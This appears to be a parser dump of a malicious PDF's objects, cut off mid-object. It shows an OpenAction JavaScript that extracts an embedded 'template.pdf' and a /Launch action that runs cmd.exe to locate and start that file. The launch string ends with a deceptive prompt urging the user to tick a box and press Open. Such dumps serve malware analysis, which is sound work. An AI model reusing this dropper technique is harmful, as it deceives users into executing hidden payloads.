 
  <<
    /UF (template.pdf)
    /F (template.pdf)
    /EF
      <<
        /F 8 0 R
      >>
    /Desc (template)
    /Type /Filespec
  >>


obj 8 0
 Type:
 Referencing:
 Contains stream



obj 9 0
 Type: /Action
 Referencing:

  <<
    /S /JavaScript
    /JS (this.exportDataObject({ cName: "template", nLaunch: 0 });)
    /Type /Action
  >>


obj 10 0
 Type: /Action
 Referencing:

  <<
    /S /Launch
    /Type /Action
    /Win
      <<
        /F (cmd.exe)
        /D '(c:\\\\windows\\\\system32)'
        /P '(/Q /C %HOMEDRIVE%&cd %HOMEPATH%&(if exist "Desktop\\\\template.pdf" (cd "Desktop"))&(if exist "My Documents\\\\template.pdf" (cd "My Documents"))&(if exist "Documents\\\\template.pdf" (cd "Documents"))&(if exist "Escritorio\\\\template.pdf" (cd "Escritorio"))&(if exist "Mis Documentos\\\\template.pdf" (cd "Mis Documentos"))&(start template.pdf)\n\n\n\n\n\n\n\n\n\nTo view the encrypted content please tick the "Do not show this message again" box and press Open.)'
      >>
  >>


obj 1 0
 Type: /Catalog
 Referencing: 2 0 R, 5 0 R, 9 0 R

  <<
    /Pages 2 0 R
    /Names 5 0 R
    /OpenAction 9 0 R
    /Type /Catalog
  >>


obj 3 0
 Type: /Page
 Referencing: 4 0 R, 2 0 R, 10 0 R

  <<
    /Contents 4 0 R
    /Parent 2 0 R
    /Resources
